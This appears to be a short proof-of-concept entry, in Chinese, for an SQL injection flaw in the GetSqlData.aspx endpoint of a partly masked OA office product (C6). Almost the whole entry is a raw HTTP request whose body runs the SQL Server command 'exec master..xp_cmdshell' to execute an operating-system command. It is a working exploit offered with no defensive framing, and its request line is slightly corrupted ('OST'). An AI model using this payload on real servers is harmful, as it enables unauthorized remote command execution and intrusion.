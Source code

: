 # 某和OA C6-GetSqlData.aspx SQL注入漏洞

## 某和OA C6-GetSqlData.aspx SQL注入漏洞
```
OST /C6/Control/GetSqlData.aspx/.ashx
Host: ip:port 
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537.36
Connection: close
Content-Length: 189
Content-Type: text/plain
Accept-Encoding: gzip

exec master..xp_cmdshell 'ipconfig'

```


